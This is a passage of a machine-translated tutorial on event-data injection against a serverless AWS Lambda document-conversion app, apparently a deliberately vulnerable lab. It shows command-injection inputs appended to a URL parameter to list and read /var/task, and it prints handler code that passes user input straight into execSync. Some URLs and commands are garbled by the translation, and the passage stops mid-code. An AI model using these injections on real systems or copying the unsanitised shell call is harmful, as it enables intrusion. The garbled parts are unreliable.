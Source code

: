 再次，不传递参数`document_url`:

[![](../Images/b86efdd6da37173a3fb47a313658db73.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--GdvTzl6a--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thetestlabs.io/img/exploiting-serverless/no-url-parameter.png)

第二个结果传回一个真正有趣的**堆叠追踪**。我们所做的是确认我们正在运行一个应用程序**【无服务器】**【在 lambda AWS 上运行】**出口。处理程序**和运行 **/var/task** 向我们展示了这一点】并且提示与小[巴比表](https://xkcd.com/327/)相似，我们可以利用它来获取一些应用数据。

# [](#inje%C3%A7%C3%A3o-de-dados-em-eventos)事件中的数据注入

**事件数据注入**在[无服务器安全漏洞指南](https://github.com/puresec/sas-top-10)中排名第一，可能是迄今为止最大、最被滥用的无服务器应用程序攻击载体。此攻击方法的工作原理是通过事件将格式错误的数据传递给 lambda 函数等。

在[https://NAT 0 yiioxc . execute-API . us-west-2 . Amazon ws . com/prod/API/convert 上运行 GET？document _ URL = https://www . puresec . io/hubfs/document . doc](https://nat0yiioxc.execute-api.us-west-2.amazonaws.com/Prod/api/convert?document_url=https://www.puresec.io/hubfs/document.doc)：ls /var/task 在 word 文档格式周围返回大量垃圾，但返回给我们一些数据。如果我们不使用有效的 URL 呢？

相反，如果我们在 **[上运行 GET，则 https://your reallyoshouldpayattention toserver security](https://YouReallyShouldPayAttentionToServerlessSecurity)；ls /var/task/** ，我们得出- `bin, index.js, node_modules, package.json`和`package-lock.json`。因此，获取 Lambda 函数的代码非常简单。让我们把**【ls/var/task】**/改为**【cat/var/task/index . js】**，看看我们得到了什么回报:

```
const child_process = require('child_process');
const AWS = require('aws-sdk');
const uuid = require('node-uuid');

async function log(event) {
  const docClient = new AWS.DynamoDB.DocumentClient();
  let requestid = event.requestContext.requestId;
  let ip = event.requestContext.identity.sourceIp;
  let documentUrl = event.queryStringParameters.document_url;

  await docClient.put({
      TableName: process.env.TABLE_NAME,
      Item: {
        'id': requestid,
        'ip': ip,
        'document_url': documentUrl
      }
    }
  ).promise();

}

exports.handler = async (event) => {
  try {
    await log(event);

    let documentUrl = event.queryStringParameters.document_url;

    let txt = child_process.execSync(`curl --silent -L ${documentUrl} | ./bin/catdoc -`).toString();

    // A resposta máxima da Lambda é 6MB. A alternativa é fazer o upload para o S3 e redirecionar o usuário para o arquivo.
    let key = uuid.v4();
    let s3 = new AWS.S3();
    await s3.putObject({
      Bucket: process.env.BUCKET_NAME,
      Key: key,
      Body: txt,
      ContentType: 'text/html',
```